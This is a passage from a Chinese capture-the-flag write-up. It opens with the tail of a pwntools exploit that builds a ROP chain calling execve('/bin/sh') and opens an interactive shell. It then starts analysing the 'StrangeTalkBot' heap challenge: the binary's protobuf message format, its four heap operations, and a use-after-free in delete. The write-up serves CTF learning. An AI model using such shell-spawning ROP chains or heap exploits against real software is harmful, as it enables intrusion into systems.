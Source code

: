     # syscall(rdi: &"/bin/sh", rax: 59, rsi: 0, rdx: 0)
    payload = b"/bin/sh\x00"
    payload += b"AAAAAAAA"
    payload += b"AAAAAAAA"
    payload += b"AAAAAAAA"
    payload += b"AAAAAAAA" # fill stack
    payload += p64(0x40264f) # pop rdi ; ret
    payload += p64(0x4e60f0) # name
    payload += p64(0x4a404a) # pop rax ; pop rdx ; pop rbx ; ret
    payload += p64(59)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0x40a67e) # pop rsi ; ret
    payload += p64(0)
    payload += p64(0x402404) # syscall

    p.sendlineafter(b"> ", b"5")
    p.sendlineafter(b"\n", payload)

    p.interactive()
    ```

---

## StrangeTalkBot
![](https://img.shields.io/badge/-PWN-4d3f3f?style=flat-square)

逆向程序可以发现一些 BINARYBF-c.c 之类的，配合 assert 搜索可以知道是使用了 protobuf，main 函数中调用的 sub_192D 函数就是进行 protobuf 消息的解析，然后将得到的 v4[4:9] 传入了 sub_155D 进行分类处理，这部分参数就是用户输入的 protobuf message 结构。

通过 sub_155D 可以知道一共有四种操作，对一系列堆进行操作，第一个参数 int64 就是选择操作。栈上保存一个 base_addr 记录多个 malloc 分配的地址，传入的第二个参数是堆的索引。第三和第四个参数和起来是一个 bytes 序列（第三个参数是这个序列的长度）所以交互需要的 protobuf 结构：

```protobuf
syntax = "proto3";

message Msg {
    int64 id = 1;
    int64 idx = 2;
    int64 size = 3;
    bytes buf = 4;
}
```

一些限制：只能创建 0x20 个堆，堆的大小/bytes 序列长度不能超过 0xf0。

四个操作：

- 1 - create：如果 base+i 处没有记录分配的地址，则新 malloc 一个，大小为 size 和 buf 长度的最大值，然后将 buf 中内容拷贝过去
- 2 - update：更新 base+i 指向的堆的内容，拷贝 buf 内容过去（长度超过原大小会截断）
- 3 - print：将 base+i 指向的堆的内容全部输出到 stdout
- 4 - delete：free 掉 base+i 指向的堆，但不清空 base+i 处记录的指针
